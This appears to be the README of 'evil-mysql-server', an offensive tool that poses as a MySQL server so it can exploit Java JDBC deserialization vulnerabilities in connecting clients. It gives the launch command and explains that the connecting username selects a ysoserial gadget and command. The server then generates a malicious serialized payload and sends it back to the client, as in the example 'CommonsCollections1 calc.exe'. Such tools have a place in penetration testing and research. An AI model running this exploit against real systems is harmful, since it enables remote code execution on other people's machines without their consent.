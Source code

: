 # evil mysql server

English | [简体中文](./README-zh_CN.md)

**evil-mysql-server** is a malicious database written to target jdbc deserialization vulnerabilities and requires ysoserial.

Usage

```shell
. /evil-mysql-server -addr 3306 -java java -ysoserial ysoserial-0.0.6-SNAPSHOT-all.jar
```


After successful startup use jdbc to connect, where the username format is `yso_payload_command`, after successful connection **evil-mysql-server** will parse the username and generate malicious data back to the jdbc client using the following command.

```shell
java -jar ysoserial.jar CommonsCollections1 calc.exe
```